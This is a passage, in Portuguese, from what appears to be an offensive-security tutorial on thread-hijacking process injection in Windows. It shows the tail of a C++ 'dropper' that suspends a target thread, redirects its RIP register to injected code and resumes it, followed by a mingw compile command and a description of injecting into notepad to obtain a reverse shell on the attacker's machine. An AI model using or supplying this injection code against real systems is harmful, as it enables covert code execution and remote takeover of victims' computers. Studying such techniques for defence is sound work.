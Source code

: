 ```cpp
    SuspendThread(ht);
    // capturando seu contexto
    GetThreadContext(ht, &cont);
    // Alterando o registrador RIP
    cont.Rip = (DWORD_PTR)remoteB;
    // gravando a alteração
    SetThreadContext(ht, &cont);
    // resumindo a thread
    ResumeThread(ht);

    CloseHandle(procH);
    return 0;
}
```

Podemos compilar o programa:

```bash
$ x86_64-w64-mingw32-g++ -O2 dropper.cpp -o dropper.exe -mconsole -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Na máquina alvo, podemos iniciar uma instância do notepad, por exemplo, e executar nosso programa.

![](/img/posts/Pasted%20image%2020240808214501.png)

Na máquina atacante, recebemos o *reverse shell*.

![](/img/posts/Pasted%20image%2020240808214554.png)
